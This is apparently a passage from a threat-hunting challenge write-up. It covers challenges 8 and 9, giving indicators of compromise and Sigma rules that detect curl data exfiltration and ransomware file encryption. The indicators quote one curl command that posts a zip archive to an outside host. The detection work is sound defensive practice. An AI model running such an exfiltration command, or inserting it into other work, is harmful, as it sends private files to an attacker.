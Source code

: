 ## Challenge 8

• Exfiltrated sensitive data through **cURL** binary.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| cURL Exfiltration | Image: curl.exe
Command Line: curl -d @exfil.zip http://huntmeplz.com:8080/ |

```yaml
title: Curl Data Exfiltration
id: 0f06a3a5-6a09-413f-8743-e6cf35561298
status: experimental
description: Detecting Curl Data Exfiltration
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection:
  EventID: 1
  Image|endswith: '*curl.exe'
  CommandLine|contains|all: 
  - ' -d '
 condition: selection
level: high
```

## Challenge 9

• Executed ransomware with **huntme** as the file extension.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| Ransomware File Encryption | Image: ransom.exe
Target Filename: *.huntme |

```yaml
title: Ransomware File Encryption
id: 0f06a3a5-6a09-413f-8743-e6cf35561299
status: experimental
description: Detecting Ransomware File Encryption
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection:
  EventID: 11
  TargetFilename: '*huntme'
 condition: selection
level: high
```

Overall these were some fun little challenges.
